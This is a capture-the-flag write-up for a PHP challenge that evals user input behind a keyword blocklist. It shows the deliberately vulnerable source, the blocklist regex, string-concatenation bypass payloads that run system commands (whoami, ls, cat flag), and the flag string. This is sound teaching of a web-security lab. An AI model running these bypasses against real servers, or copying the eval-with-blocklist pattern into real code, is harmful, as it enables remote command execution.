 # Evil oR Not
![](images/2023-02-22-22-34-00.png)

```php
<?php


error_reporting(0);

if (isset($_POST['submit']))
{
        
    $x = strtolower($_POST['txt']);
    $reg="/system|exec|eval|passthru|file|open|php|include|require|show|get_all_headers|curl\`/im";

    if(preg_match($reg,$x))
    {
        echo "Try harder";
    } 
    else 
    {
    
        eval($x);
    }
        
}
else
{
    show_source(__FILE__);
}
?>
```
```php
<!DOCTYPE html>
<html>
<head>
    <title>Get sad shell</title>
</head>
<body>
    <form action="" method="POST">
    <center>
    <p>Get sad shell</p>
    <input type="text" name="txt"><br />
    <input type="submit" name="submit">
    <br><br><br><br><br><br><br><br><br><br><br><br><br><br>
    </center>
    
    </form>
</body>
</html>
```
![](images/2023-02-22-22-36-05.png)

然而可以通过字符串拼接绕过等

[php绕过姿势-Rlins-博客园](https://www.cnblogs.com/Rlins/articles/16369740.html)

`(p.h.p.i.n.f.o)();`
![](images/2023-02-22-22-38-33.png)

`(sy.(st).em)(whoami);`
![](images/2023-02-22-22-39-17.png)

`(sy.(st).em)("cd /;ls");`
![](images/2023-02-22-22-40-18.png)

`(sy.(st).em)("cd /;cat flag*");`
![](images/2023-02-22-22-40-56.png)
**0xL4ugh{Ev!l_!5_Alw@ys_Evill}**